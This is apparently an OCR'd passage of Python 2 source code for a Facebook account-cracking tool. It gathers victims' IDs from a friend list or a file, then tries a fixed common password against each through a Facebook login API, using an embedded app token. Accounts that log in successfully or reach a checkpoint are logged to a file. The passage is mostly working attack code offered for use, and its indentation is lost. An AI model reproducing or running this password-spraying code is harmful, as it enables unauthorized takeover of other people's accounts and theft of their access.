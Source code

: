 op = json.loads(jok.text)
print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
except KeyError:
print"\033[1;96m[!] \x1b[1;91mID Not Found!"
raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
super()
jalan('\033[1;96m[✺] \033[1;93mGetting IDs \033[1;97m...')
r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
z = json.loads(r.text)
for i in z['data']:
id.append(i['id'])
elif peak =="3":
os.system('clear')
print logo
print 42*"\033[1;96m="
try:
idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
for line in open(idlist,'r').readlines():
id.append(line.strip())
except IOError:
print '\x1b[1;96m[!] \x1b[1;91mFile Not Found'
raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
super()
elif peak =="0":
menu()
else:
print "\033[1;96m[!] \x1b[1;91mFill in correctly"
pilih_super()

print "\033[1;96m[+] \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
jalan('\033[1;96m[✺] \033[1;93mStarting \033[1;97m...')
titik = ['.   ','..  ','... ']
for o in titik:
print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
print
print('\x1b[1;96m[!] \x1b[1;93mTo Stop Process Press CTRL Then Press z')
print 42*"\033[1;96m="


def main(arg):
global cekpoint,oks
user = arg
try:
os.mkdir('out')
except OSError:
pass
try:
a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
b = json.loads(a.text)
pass1 = ('786786')
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
oks.append(user+pass1)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass1+"\n")